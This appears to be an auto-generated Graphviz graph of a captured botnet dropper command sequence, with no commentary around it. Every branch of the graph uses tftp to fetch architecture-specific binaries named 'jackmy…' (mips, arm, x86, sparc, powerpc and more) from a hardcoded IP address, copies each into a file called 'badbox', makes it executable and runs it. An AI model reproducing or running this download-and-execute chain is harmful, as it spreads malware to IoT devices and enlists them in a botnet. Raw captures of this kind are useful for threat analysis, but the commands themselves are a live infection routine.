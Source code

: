 digraph {
0 [label="ulimit -n 999999 "];
0 -> 0
2 [label="cp /bin/busybox /tmp/ "];
2 -> 2
148 [label="cd /tmp "];
148 -> 148
6 [label="tftp -r jackmymips -g 173.212.225.13 "];
6 -> 8 [label=";,"];
8 [label="cat jackmymips badbox "];
8 -> 154 [label=";,"];
154 [label="badbox "];
154 -> 154
156 [label="chmod +x * "];
156 -> 157 [label=";,"];
157 [label="./badbox "];
157 -> 148 [label=";,"];
148 [label="cd /tmp "];
148 -> 148
18 [label="tftp -r jackmymipsel -g 173.212.225.13 "];
18 -> 20 [label=";,"];
20 [label="cat jackmymipsel badbox "];
20 -> 154 [label=";,"];
154 [label="badbox "];
154 -> 154
156 [label="chmod +x * "];
156 -> 157 [label=";,"];
157 [label="./badbox "];
157 -> 148 [label=";,"];
148 [label="cd /tmp "];
148 -> 148
30 [label="tftp -r jackmysh4 -g 173.212.225.13 "];
30 -> 32 [label=";,"];
32 [label="cat jackmysh4 badbox "];
32 -> 154 [label=";,"];
154 [label="badbox "];
154 -> 154
156 [label="chmod +x * "];
156 -> 157 [label=";,"];
157 [label="./badbox "];
157 -> 148 [label=";,"];
148 [label="cd /tmp "];
148 -> 148
42 [label="tftp -r jackmyx86 -g 173.212.225.13 "];
42 -> 44 [label=";,"];
44 [label="cat jackmyx86 badbox "];
44 -> 154 [label=";,"];
154 [label="badbox "];
154 -> 154
156 [label="chmod +x * "];
156 -> 157 [label=";,"];
157 [label="./badbox "];
157 -> 148 [label=";,"];
148 [label="cd /tmp "];
148 -> 148
54 [label="tftp -r jackmyarmv6 -g 173.212.225.13 "];
54 -> 56 [label=";,"];
56 [label="cat jackmyarmv6 badbox "];
56 -> 154 [label=";,"];
154 [label="badbox "];
154 -> 154
156 [label="chmod +x * "];
156 -> 157 [label=";,"];
157 [label="./badbox "];
157 -> 148 [label=";,"];
148 [label="cd /tmp "];
148 -> 148
66 [label="tftp -r jackmyi686 -g 173.212.225.13 "];
66 -> 68 [label=";,"];
68 [label="cat jackmyi686 badbox "];
68 -> 154 [label=";,"];
154 [label="badbox "];
154 -> 154
156 [label="chmod +x * "];
156 -> 157 [label=";,"];
157 [label="./badbox "];
157 -> 148 [label=";,"];
148 [label="cd /tmp "];
148 -> 148
78 [label="tftp -r jackmypowerpc -g 173.212.225.13 "];
78 -> 80 [label=";,"];
80 [label="cat jackmypowerpc badbox "];
80 -> 154 [label=";,"];
154 [label="badbox "];
154 -> 154
156 [label="chmod +x * "];
156 -> 157 [label=";,"];
157 [label="./badbox "];
157 -> 148 [label=";,"];
148 [label="cd /tmp "];
148 -> 148
90 [label="tftp -r jackmyi586 -g 173.212.225.13 "];
90 -> 92 [label=";,"];
92 [label="cat jackmyi586 badbox "];
92 -> 154 [label=";,"];
154 [label="badbox "];
154 -> 154
156 [label="chmod +x * "];
156 -> 157 [label=";,"];
157 [label="./badbox "];
157 -> 148 [label=";,"];
148 [label="cd /tmp "];
148 -> 148
102 [label="tftp -r jackmym86k -g 173.212.225.13 "];
102 -> 104 [label=";,"];
104 [label="cat jackmym86k badbox "];
104 -> 154 [label=";,"];
154 [label="badbox "];
154 -> 154
156 [label="chmod +x * "];
156 -> 157 [label=";,"];
157 [label="./badbox "];
157 -> 148 [label=";,"];
148 [label="cd /tmp "];
148 -> 148
114 [label="tftp -r jackmysparc -g 173.212.225.13 "];
114 -> 116 [label=";,"];
116 [label="cat jackmysparc badbox "];
116 -> 154 [label=";,"];
154 [label="badbox "];
154 -> 154
156 [label="chmod +x * "];
156 -> 157 [label=";,"];
157 [label="./badbox "];
157 -> 148 [label=";,"];
148 [label="cd /tmp "];
148 -> 148
126 [label="tftp -r jackmyarmv4 -g 173.212.225.13 "];
126 -> 128 [label=";,"];
128 [label="cat jackmyarmv4 badbox "];
128 -> 154 [label=";,"];
154 [label="badbox "];
154 -> 154
156 [label="chmod +x * "];
156 -> 157 [label=";,"];
157 [label="./badbox "];
157 -> 148 [label=";,"];
148 [label="cd /tmp "];
148 -> 148
138 [label="tftp -r jackmyarmv5 -g 173.212.225.13 "];
138 -> 140 [label=";,"];
140 [label="cat jackmyarmv5 badbox "];
140 -> 154 [label=";,"];
154 [label="badbox "];
154 -> 154
156 [label="chmod +x * "];
156 -> 157 [label=";,"];
157 [label="./badbox "];
157 -> 148 [label=";,"];
148 [label="cd /tmp "];
148 -> 148
150 [label="tftp -r jackmypowerpc440 -g 173.212.225.13 "];
150 -> 152 [label=";,"];
152 [label="cat jackmypowerpc440 badbox "];
152 -> 154 [label=";,"];
154 [label="badbox "];
154 -> 154
156 [label="chmod +x * "];
156 -> 157 [label=";,"];
}
